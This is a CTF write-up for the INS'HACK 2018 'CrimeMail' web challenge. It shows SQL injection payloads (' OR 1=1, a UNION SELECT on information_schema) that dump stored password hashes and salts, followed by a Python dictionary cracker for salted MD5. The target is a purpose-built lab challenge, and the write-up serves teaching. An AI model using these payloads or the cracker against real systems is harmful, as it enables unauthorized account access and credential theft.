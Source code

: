 +++
title = "INS'HACK 2018: CrimeMail (web, 100)"
date = 2018-05-01
+++

Every year, the goods folks of [InSecurity INSA](http://insecurity-insa.fr/), an offensive computer hacking association, organize **INS'HACK**. If you guys aren't familiar with the event, held once a year in Lyon, France, I strongly suggest you to take a look [here](http://inshack.insecurity-insa.fr/). Who knows, maybe I'll see you at the next edition!

INS'HACK is split in two parts: first, 3 hand-picked high-quality cybersecurity conferences, the role was (extremeluy well) played this year by OVH, Mozilla, Orange and Certilience. And later in the evening, an on-site CTF! The infrastructure is no longer online as you probably guessed, but if you want to take a look at the challenges and their writeups, go to [our official GitHub repo](https://github.com/HugoDelval/inshack-2018).

As a part of the organizing team, I got to write some challenges for the event: namely [Self-congratulation](https://github.com/HugoDelval/inshack-2018/tree/master/misc/self-congratulation), [On whose authority](https://github.com/HugoDelval/inshack-2018/tree/master/network/on-whose-authority), and [CrimeMail](https://github.com/HugoDelval/inshack-2018/tree/master/web/crimemail). Today, we're here to talk about the latter, so don't go checking the solution just yet.

If you want to try and solve the challenge yourself, you can: you need to install a webserver of your choice along with PHP, and a MySQL database, then feed it the init.sql SQL script: you'll find what you need to serve in *server-files/app*, and the script in *server-files/conf*. Now, I realise asking you to NOT look at the content of these files will maybe not play well with the paranoid type, but if you want to solve it, reading the sources would make it too easy!

Let's jump into it! Let's take a look at this CrimeMail website, and the description of the challenge:

![crimemail webpage](crimemail-inshack-2018.webp)

    Collins Hackle is a notorious bad guy, and you've decided to take him down. You need something on him, anything, to send the police his way, and it seems he uses CrimeMail, a very specialized email service, to communicate with his associates.    
    Let's see if you can hack your way in his account...    
    Hint: his password's md5 is computed as follows: md5 = mdp($password + $salt) and Collins Hackle has a password which can be found in an english dictionary    

Okey, so we need to find some way to get in this Collins Hackle guy's email, and we're already left with a pretty big hint: the password is stored salted, but a dictionary-attack will be effective against it. So we can assume we'll have to find a way to steal the hash of the password along with the salt, then brute-force offline to find the password.

You probably already noticed the shady-looking "Lost your password" link. Let's go there:

![lost your password crimemail](crimemail-lost-pw.webp)

Let's try some basic SQL injection, by entering `' OR 1=1 -- a`:

![basic sql injection crimemail](crimemail-basic-sqli.webp)

Bingo! The webpage displays the result of our query. Easy enough! We can now explore the database a bit, starting by extracting the name of the tables. On MySQL and SQL Server you have access to the *information_schema* table, where we can find all the metadata we're looking for. For example: `' UNION SELECT table_name FROM information_schema.tables -- a`:

![find tables sql injection crimemail](crimemail-tables-sqli.webp)

That "users" table look like exactly what we need. Digging a little deeper you'll quickly find that its columns are *username*, *pass_md5*, *pass_salt* and *hint*. Here we're interested in the Collins Hackle account, and by displaying them, the username seems to be "c.hackle", the corresponding salt is "yhbG" and the hash is "f2b31b3a7a7c41093321d0c98c37f5ad".

Let's get cracking! The easy way is to find the password locally, now that you have the hash. To do so, you can try using a software like John the Ripper, or write an exploit in your favorite programming language: this is what we'll do here. You need a file of passwords you'll try, and you know the password is in an english dictionary. So you probably already have everything you need on your local (Linux) install, in */usr/share/dict* or */var/lib/dict*.

In Python 3:

```python
#!/usr/bin/env python
import sys
import hashlib

if __name__ == "__main__":
    # print usage
    if len(sys.argv) != 4:
        print("usage: {} <salt> <md5_to_crack> <path_to_dictionary>".format(sys.argv[0]))
        sys.exit()

    # hash to crack and salt
    salt = sys.argv[1].strip()
    salt_encoded = str.encode(salt)
    md5_to_crack = sys.argv[2].strip()

    # read every word (1 per line) of dictionary
    with open(sys.argv[3]) as f:
        word = f.readline()
        count = 1
        while word:
            # status progress
            if count % 1000 == 0:
                print("We're at the word n°{}".format(count))

            # prepare the strings to be hashed
            word_encoded = str.encode(word.strip())
            to_be_hashed = word_encoded + salt_encoded

            # compute the md5 hash of word+salt
            computed_md5 = hashlib.md5(to_be_hashed).hexdigest()

            # if it's the same hash
            if computed_md5 == md5_to_crack:
                print("Password cracked! It's {}".format(word))
                sys.exit()

            # read next word
            count += 1
            word = f.readline()

    print("Nothing found :(")

```

And now, calling it with the two hashes we retrieved:

```sh
$ ./cracker.py "yhbG" "f2b31b3a7a7c41093321d0c98c37f5ad" dictionary  
We're at the word n°1000  
We're at the word n°2000  
We're at the word n°3000  
...  
We're at the word n°35000  
We're at the word n°36000  
Password cracked! It's pizza  
```

Boom! The password is here, **pizza**. Congratulations, logging-in with these infos displays an email where Collins is telling a friend of his to meet him at INSHACK{s3cr3t\_l0ca1i0n}. There's your flag!

I was very pleased by how the challenge was received, we did a little feedback challenge towards the end of the CTF and CrimeMail was doing pretty well, even considered the best challenge of the CTF by some (I wouldn't go that far.. :p). So big thanks to the participating teams and as always, don't hesistate to contact me with any feedback or questions you may have.


